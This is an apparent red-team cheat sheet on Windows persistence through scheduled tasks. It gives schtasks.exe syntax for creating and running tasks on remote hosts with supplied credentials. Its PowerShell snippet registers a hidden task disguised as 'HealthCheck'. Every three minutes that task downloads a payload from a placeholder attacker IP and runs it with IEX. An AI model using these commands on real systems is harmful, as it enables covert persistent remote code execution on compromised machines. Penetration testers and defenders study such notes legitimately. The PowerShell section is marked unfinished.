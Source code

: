 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - maintaining-access
  - persistence
  - living-off-the-land
  - T1053
  - windows
---
```

# Living off the Land

## 01 - Command Prompt

### 1.1 - Create Task Syntax

```
C:\> schtasks.exe /create /tn "<task_name>" /tr "<commands>" /sc <minute | hourly | daily | weekly | monthly | once | onstart | onlogon | onidle> <[/st HH:MM:SS | /st <MM/DD/YYYY>]> [/sd <MM/DD/YYYY>] [/it] [/ru <DOMAIN>\<username>] [/rp <password>] [/s <target_IP>]

/create => create a schedule task
/sc => type of schedule
/st => start time
/tn => task name
/tr => task run
/it => Make it interactive when the user is using his computer
/s => computer IP
/ru => specify the username: { [DOMAIN\]<username> | system }
/rp => specify the password
```

### 1.2 - Run Task Syntax

```
C:\> schtasks.exe /run /tn "<task_name>" [/ru <DOMAIN>\<username>] [/rp <password>] [/s <target_IP>]
```

### 1.2 - Stop Task Syntax

```
C:\> schtasks.exe /stop /tn "<task_name>" [/ru <DOMAIN>\<username>] [/rp <password>] [/s <target_IP>]
```

### 1.3 - Delete Task Syntax

```
C:\> schtasks.exe /delete /f /tn "<task_name>" [/ru <DOMAIN>\<username>] [/rp <password>] [/s <target_IP>]
```

### 1.4 - Query Task Syntax

```
C:\> schtasks.exe /query /f /tn "<task_name>" [/ru <DOMAIN>\<username>] [/rp <password>] [/s <target_IP>]
```

### 1.5 - Execute Payload

```
C:\> net.exe time

PS C:\> Get-Date

C:\> schtasks.exe /query /tn "<task_name>" /fo List /v /s <IP>

C:\> schtasks.exe /delete /tn "<task_name>" /tr "<commands>" /sc once /st <HH:mm> /s <IP> /ru [DOMAIN]\<username> /rp <password>

C:\> schtasks.exe /create /tn "<task_name>" /tr "<commands>" /sc once /st <HH:mm> /s <IP> /ru system
```

## 02 - PowerShell

TODO: Fill in this info

```powershell
$action = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-WindowStyle hidden -c `"IEX (New-Object Net.WebClient).DownloadString('http[s]://<attacker_IP>/payload.ps1')`""

$trigger = New-ScheduledTaskTrigger -Once -At (Get-Date) -RepetitionInterval (New-TimeSpan -Minutes 3)
$settings = New-ScheduledTaskSettingsSet -RunOnlyIfNetworkAvailable -StartWhenAvailable -AllowStartIfOnBatteries -DontStopIfGoingOnBatteries
Register-ScheduledTask -Action $action -Trigger $trigger -TaskName "HealthCheck"
```

---
## References

### Backlinks

- [[Windows Post Exploitation Persistence References]]

### LOFLCAB

- [LOFLCAB: net.exe](https://lofl-project.github.io/loflcab/Binaries/net/)

### Persistence Info

- [Persistence Info: Task Scheduler](https://persistence-info.github.io/Data/taskscheduler.html)

### Red Team Notes

- [Red Team Notes: Schtask](https://www.ired.team/offensive-security/persistence/t1053-schtask)

### Pentestlab

- [Pentestlab Blog: Persistence Scheduled Tasks](https://pentestlab.blog/2019/11/04/persistence-scheduled-tasks/)

### DMCXBlue

- [DMCXBlue: Scheduled Task](https://dmcxblue.gitbook.io/red-team-notes-2-0/red-team-techniques/persistence/t1053-scheduled-tasks-job/scheduled-task)

- [DMCXBlue: Userland Persistence](https://dmcxblue.gitbook.io/red-team-notes-2-0/persistence/userland-persistence)